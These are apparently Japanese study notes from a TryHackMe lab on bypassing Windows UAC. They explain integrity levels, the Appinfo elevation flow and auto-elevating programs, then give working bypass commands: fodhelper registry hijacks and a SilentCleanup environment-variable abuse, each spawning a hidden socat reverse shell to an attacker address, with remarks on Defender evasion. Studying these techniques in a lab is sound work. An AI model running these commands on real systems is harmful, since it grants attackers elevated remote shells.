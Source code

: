# UAC 回避

https://tryhackme.com/r/room/bypassinguac

## 基本

### 整合性レベル (IL)

低、中、高、システムの 4 種類  
一般ユーザーはログイン時に中レベルのトークンを受け取る。  
管理者ユーザーは中レベル（フィルターされたトークン）と高レベル（昇格トークン）の二種類のトークンを受け取る。UAC 経由で明示的に要求した場合に限り、昇格トークンが使われる

### UAC 設定（通知設定）

「常に通知する」かそれ以外。攻撃者の観点では、下位３種類のセキュリティレベルは同等。

### アプリケーション情報サービス(Appinfo)

「管理者として実行」したとき、

1. ShellExecute API 呼び出しが、 runas 動詞を使用して行われる。  
   ShellExecute("runas", "cmd.exe")
1. 昇格を処理するために Appinfo に要求が転送される。
1. Appinfo がアプリケーション マニフェストをチェックして、AutoElevation が許可されているかどうかを確認。
1. Appinfo が consent.exe を実行し、安全なデスクトップに UAC プロンプトを表示。
1. ユーザーが管理者としてアプリケーションを実行することに同意した場合、Appinfo サービスはユーザーの昇格トークンを使用して要求を実行する。
1. Appinfo は新しいプロセスの親プロセス ID を、昇格が要求されたシェルを指すように設定ｓる。

### 自動昇格

msconfig のように、ユーザーの介入なしで高 IL で起動するプログラムがある。

- Windows 発行者によって署名されている必要がある。
- 信頼できるディレクトリに格納されている必要がある。  
  %SystemRoot%/System32/ または %ProgramFiles%/
- マニフェスト内で autoElevate 要素を宣言する必要がある。

## 回避

### GUI ベース

メニューから msconfig を実行すると、自動的に 高 IL で起動される。
ツールタブからコマンドプロンプトを起動でき、そのプロンプトは親プロセスの IL を引き継ぐため、高 IL になる。

azman.msc の場合、ヘルプから「ページのソースを表示」でメモ帳を開き、「ファイルを開く」から右クリックでコマンドプロンプトを開く、といった事も可能。

### CUI ベース

fodhelper.exe がレジストリに設定されているプログラムを起動する仕様を利用して、リバースシェルを起動する。

#### Defender に検出されるバージョン

```shell
# Defenderに検出されて、作成後すぐに削除される
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f

fodhelper.exe
```

クリーンアップ

```shell
reg delete HKCU\Software\Classes\ms-settings\ /f
```

#### 改良型

.pwn の部分は任意の文字列のため検出が難しい。  
同じシステムで異なるバージョンの複数のインスタンスを実行する場合に使われる。

```shell
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f

reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

fodhelper.exe
```

クリーンアップ

```shell
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

### 「常に通知する」を回避

DiskCleanup スケジューラタスクを利用する。  
レジストリ固定なので Defender には検知される。

```shell
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

%windir% が展開された結果、下記のような形でコマンドが実行される。

```text
cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%
```

クリーンアップ

```shell
reg delete "HKCU\Environment" /v "windir" /f
```

## 自動化

https://github.com/hfiref0x/UACME
